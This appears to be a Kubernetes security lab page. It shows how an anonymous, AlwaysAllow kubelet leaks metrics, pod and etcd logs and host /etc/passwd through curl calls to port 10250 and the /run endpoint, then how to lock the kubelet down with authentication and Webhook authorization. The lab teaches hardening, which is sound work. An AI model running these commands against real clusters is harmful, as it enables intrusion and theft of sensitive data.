 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --filter="name=kubernetes-security" --format json | jq '.[].networkInterfaces[].accessConfigs[].natIP' | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
kubectl exec -it my-suboptimal-pod -- cat /host/etc/passwd
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config

```bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
authentication:
  anonymous:
    enabled: true # <= change to false
```

### Fix Authorization

```yaml
authorization:
  mode: AlwaysAllow # <= change to Webhook
```

### Restart the kubelet and check the status

```bash
systemctl restart kubelet

systemctl status kubelet
```

### Verify kubelet is now safe again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet again - now you will get an `Unauthorized` response
curl -k https://$IP:10250/metrics
```
